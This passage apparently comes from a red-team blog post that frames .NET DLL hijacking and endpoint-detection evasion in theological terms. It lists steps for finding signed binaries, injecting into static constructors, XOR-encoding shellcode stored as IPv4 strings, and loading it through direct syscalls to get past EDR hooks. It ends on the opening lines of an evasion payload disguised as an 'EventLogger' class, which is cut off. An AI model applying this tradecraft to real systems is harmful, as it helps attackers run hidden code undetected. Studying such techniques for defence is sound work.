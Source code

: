 ```
            IntPtr bytesBuffer
        );
    }
}
```

### 🕊️ Theological Insight: Stealth as Humility

> “Be wise as serpents and innocent as doves.” — Matthew 10:16

You are not called to be noisy.

You are called to be precise.

In spiritual warfare, subtlety matters. Stealthy syscall usage doesn’t just evade detection — it reflects a posture of restraint and purpose.

We’re not here to cause chaos.

We’re here to reveal misplaced trust — quietly, intentionally, and with conviction.

---

## VII. Putting It All Together: Doctrine Meets Deployment

At this point in the process, we've aligned theological insight with technical action. The infralapsarian workflow teaches us to respond faithfully to discovered weakness — and now, all elements converge:

### 🔁 From Discovery to Execution

1. Reconnaissance (The Father)
- Use Assembly Hunter to identify signed executables
-  Analyze DLL dependencies and loading behavior
2. Injection Point (The Son)
- Dissect the binary using ILSpy or dnSpy
- Locate valid execution paths: DllMain, Exported Functions, .cctor, UI handlers
3. Payload Design (The Spirit)
- Create XOR-encoded shellcode
- Embed using IPv4 formatting, blobs, or compression
- Load via stealthy syscalls: NtAllocateVirtualMemory, NtWriteVirtualMemory, NtCreateThreadEx
4. Execution and Evasion
- Avoid userland hooks
- Delay execution or use SleepEx to obfuscate behavior
- Validate that your hijacked DLL loads cleanly and maintains application flow

Here is the final ```csharp``` that was used to bypass Endpoint Detections. 

```
using System;
using System.Collections.Generic;
using System.IO;
using System.Linq;
using System.Text;
using System.Runtime.InteropServices;
using System.Windows.Forms;

namespace XXXXXX.Diagnostics.Audit
{
    public static partial class EventLogger
    {
        static EventLogger()
        {
            try
            {
                // Get the directory where the DLL is running
                string dllPath = System.Reflection.Assembly.GetExecutingAssembly().Location;
```